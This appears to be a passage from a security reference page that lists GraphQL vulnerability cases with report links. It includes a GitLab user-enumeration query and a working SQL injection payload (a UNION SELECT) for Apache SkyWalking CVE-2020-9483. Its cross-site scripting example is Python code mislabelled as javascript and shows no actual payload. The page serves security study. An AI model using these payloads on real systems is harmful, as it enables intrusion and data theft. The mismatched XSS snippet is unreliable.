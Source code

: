 * **Enumerating GraphQL Users (GitLab):** A vulnerability allowed the enumeration of GraphQL users . This vulnerability showed how an API may inadvertently expose user information.

```graphql
query {
    users {
        nodes {
            id
            name
            username
        }
    }
}
```

* **Accessing the Introspection Query via WebSocket (Nuri):** A vulnerability was found in Nuri where the introspection query was accessible via WebSocket .

{% embed url="https://hackerone.com/reports/862835" %}

### Injection

* **SQL Injection in a GET Query Parameter (HackerOne):** A SQL injection vulnerability was found in a HackerOne application in a GET query parameter . This showed how GraphQL endpoints can be vulnerable to common injection attacks through GET requests.

{% embed url="https://hackerone.com/reports/435066" %}

* **SQL Injection in an Object Argument (Apache SkyWalking):** A SQL injection vulnerability was found in Apache SkyWalking where the vulnerability was located in an object argument . A code review revealed that the vulnerability stemmed from a lack of sanitization when constructing SQL queries using client-supplied data .

```graphql
query SQLi($d: Duration!) {
    getLinearIntValues(metric:{name: "all_p99", id: "') UNION SELECT 1,CONCAT('~','9999999999','~')--"},duration: $d) {
        values {
            value
        }
    }
}
```

{% embed url="https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-9483.yaml" %}

* **Cross-Site Scripting (GraphQL Playground):** A cross-site scripting vulnerability was found in GraphQL Playground .

```javascript
class UserObject(SQLAlchemyObjectType):
    class Meta:
        name = "MyMaliciousTypeName"
        model = User
```
